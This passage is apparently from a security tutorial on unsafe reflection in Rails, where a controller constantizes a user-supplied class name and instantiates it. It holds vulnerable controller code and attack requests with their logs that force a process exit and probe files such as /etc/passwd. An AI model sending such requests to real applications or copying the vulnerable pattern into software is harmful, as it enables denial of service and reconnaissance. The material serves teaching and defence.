 ```
Started GET "/teste/index?class=ActionController::MimeResponds::Collector&arg[]=exit" for 127.0.0.1 at 2013-02-10 21:27:01 -0200
Processing by TesteController#index as HTML
  Parameters: {"class"=>"ActionController::MimeResponds::Collector", "arg"=>["exit"]}
Completed 500 Internal Server Error in 1ms
SystemExit (exit):
  app/controllers/teste_controller.rb:4:in `new'
  app/controllers/teste_controller.rb:4:in `index'

```

**Another Example:**
```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg1], params[:arg2])
        r = obj.somemethod
        ...
    end
```
**File and directory enumeration**

If the code makes a call to new with an user-controllable parameter, then you can use it to enumerate files and directories in the system. Example:
```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg])
        ...
    end
```

**Querying an existing file**

```
Started GET "/teste/index?class=File&arg=/etc/passwd" for 127.0.0.1 at 2013-02-10 21:20:05 -0200
Processing by TesteController#index as HTML
  Parameters: {"class"=>"File", "arg"=>"/etc/passwd"}
  Rendered teste/index.html.erb within layouts/application (0.1ms)
Completed 200 OK in 9ms (Views: 8.6ms | ActiveRecord: 0.0ms)
```

**Querying a non-existing file**

```
Started GET "/teste/index?class=File&arg=raaaaaaaa" for 127.0.0.1 at 2013-02-10 21:20:32 -0200
Processing by TesteController#index as HTML
  Parameters: {"class"=>"File", "arg"=>"raaaaaaaa"}
Completed 500 Internal Server Error in 0ms

Errno::ENOENT (No such file or directory - raaaaaaaa):

```
**Denial of Service**
